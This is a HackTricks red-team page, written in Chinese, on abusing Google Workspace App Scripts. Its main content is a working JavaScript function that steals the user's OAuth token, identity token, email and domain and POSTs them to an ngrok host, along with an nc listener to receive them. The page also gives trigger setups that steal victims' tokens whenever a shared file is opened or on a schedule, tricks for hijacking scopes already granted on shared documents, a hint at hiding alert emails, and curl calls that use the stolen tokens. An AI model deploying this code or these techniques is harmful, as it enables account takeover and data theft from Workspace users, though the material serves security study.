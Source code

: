 # GWS - App Scripts

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## App Scripts

App Scripts是**当具有编辑权限的用户访问与App Script链接的文档并在** **接受OAuth提示后将触发的代码**，也可以设置为**由App Script的所有者每隔一段时间执行一次**（持久性）。

### 创建App Script

有几种创建App Script的方法，尽管最常见的方法是**从Google文档（任何类型）**和作为**独立项目**创建：

<details>

<summary>从Google文档、表格或幻灯片创建容器绑定项目</summary>

1. 打开文档文档、表格或幻灯片演示文稿。
2. 点击**扩展** > **Google Apps Script**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>创建独立项目</summary>

要从Apps Script创建独立项目：

1. 转到[`script.google.com`](https://script.google.com/)。
2. 点击**新项目**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>从Google Drive创建独立项目</summary>

1. 打开[Google Drive](https://drive.google.com/)。
2. 点击**新建** > **更多** > **Google Apps Script**。

</details>

<details>

<summary>从Google表单创建容器绑定项目</summary>

1. 在Google表单中打开一个表单。
2. 点击更多 more\_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击**无标题项目**。
4. 给您的项目命名，然后点击**重命名**。

</details>

<details>

<summary>使用clasp命令行工具创建独立项目</summary>

`clasp`是一个命令行工具，允许您从终端创建、拉取/推送和部署Apps Script项目。

有关更多详细信息，请参阅[使用`clasp`进行命令行界面的指南](https://developers.google.com/apps-script/guides/clasp)。

</details>

## App Script场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 创建带有App Script的Google表格

首先创建一个App Script，我建议在这种情况下创建一个Google表格，然后转到**`扩展 > App Scripts`**，这将为您打开一个**与表格相关联的新App Script**。

### 泄露令牌

为了授予OAuth令牌访问权限，您需要点击**`服务 +`并添加类似的范围**：

* **AdminDirectory**：访问目录的用户和组（如果用户具有足够的权限）
* **Gmail**：访问Gmail数据
* **Drive**：访问Drive数据
* **Google Sheets API**：使其与触发器一起工作

要自行更改**所需的范围**，您可以转到项目设置并启用：**`在编辑器中显示"appsscript.json"清单文件`**。

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

要捕获请求，您只需运行：
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
### 请求执行应用脚本所需的权限：

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
由于进行外部请求，OAuth提示框还会**请求权限以访问外部端点**。
{% endhint %}

### 创建触发器

一旦应用被读取，点击**⏰ 触发器**创建一个触发器。在**函数**中选择**`getToken`**，在部署中运行选择**`Head`**，在事件源中选择**`From spreadsheet`**，事件类型选择**`On open`**或**`On edit`**（根据您的需求），然后保存。

请注意，如果需要调试，可以在**执行选项卡中检查应用脚本的运行**。

### 共享

为了**触发**应用脚本，受害者需要连接到**编辑访问权限**。

{% hint style="success" %}
用于执行**应用脚本**的**令牌**将是**触发器创建者的令牌**，即使其他用户以编辑身份打开文件。
{% endhint %}

### 滥用“与我共享”的文档

{% hint style="danger" %}
如果有人**与您共享了一个包含应用脚本和使用应用脚本 Head 的触发器**的文档，您可以修改应用脚本代码（例如添加窃取令牌功能），访问它，然后**应用脚本将以与与您共享文档的用户权限相同的权限执行**！（请注意，所有者的 OAuth 令牌将具有在创建触发器时给定的访问范围）。

**通知将发送给脚本的创建者，指示有人修改了脚本**（考虑使用 Gmail 权限生成过滤器以防止警报？）
{% endhint %}

{% hint style="success" %}
如果**攻击者修改了应用脚本的范围**，更新**不会应用**到文档中，直到创建具有更改的新触发器。因此，攻击者将无法使用比他在创建触发器时设置的范围更多的权限窃取所有者的创建者令牌。
{% endhint %}

### 复制而非共享

当您创建一个共享文档的链接时，会创建类似于以下链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您将结尾的**"/edit"**更改为**"/copy"**，而不是访问它，谷歌会询问您是否要**生成文档的副本**：

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

如果用户复制并访问它，**文档内容和应用脚本都将被复制**，但**触发器不会**，因此**不会执行任何操作**。

### 作为 Web 应用程序共享

请注意，也可以将**应用脚本作为 Web 应用程序共享**（在应用脚本的编辑器中，部署为 Web 应用程序），但会出现如下警告：

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

接着是**典型的 OAuth 提示**，要求所需的权限。

### 测试

您可以测试收集到的令牌以列出电子邮件：
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
{% endcode %}

列出用户的日历：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## 应用脚本作为持久性

一种持久性的选择是**创建一个文档并添加一个触发器来调用`getToken`函数**，然后与攻击者共享文档，这样每次攻击者打开文件时就会**窃取受害者的令牌**。

还可以创建一个应用脚本，并设置定期触发（比如每分钟、每小时、每天...）。一个已经**获取了凭据或受害者会话的攻击者可以设置一个应用脚本定时触发器，每天泄露一个非常特权的OAuth令牌**：

只需创建一个应用脚本，转到触发器，点击添加触发器，选择事件源为时间驱动，并选择最适合您的选项：

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
这将创建一个安全警报电子邮件和一个推送消息到您的手机，提醒您有关此事。
{% endhint %}

### 共享文档未经验证提示绕过

此外，如果有人与您共享了一个具有**编辑访问权限**的文档，您可以在文档内生成**应用脚本**，而文档的**所有者（创建者）将成为应用脚本的所有者**。

{% hint style="warning" %}
这意味着，文档的**创建者将被视为任何拥有编辑访问权限的人在其中创建的任何应用脚本的创建者**。

这也意味着，**应用脚本将受到文档创建者的 Workspace 环境的信任**。
{% endhint %}

{% hint style="danger" %}
这也意味着，如果**应用脚本已经存在**并且人们已经**授予访问权限**，那么任何具有文档上**编辑权限**的人都可以**修改它并滥用该访问权限**。\
要滥用此功能，您还需要人们触发应用脚本。一个巧妙的技巧是**将脚本发布为 Web 应用程序**。当已经**授予应用脚本访问权限**的**人们**访问网页时，他们将**触发应用脚本**（这也适用于使用`<img>`标签）。
{% endhint %}
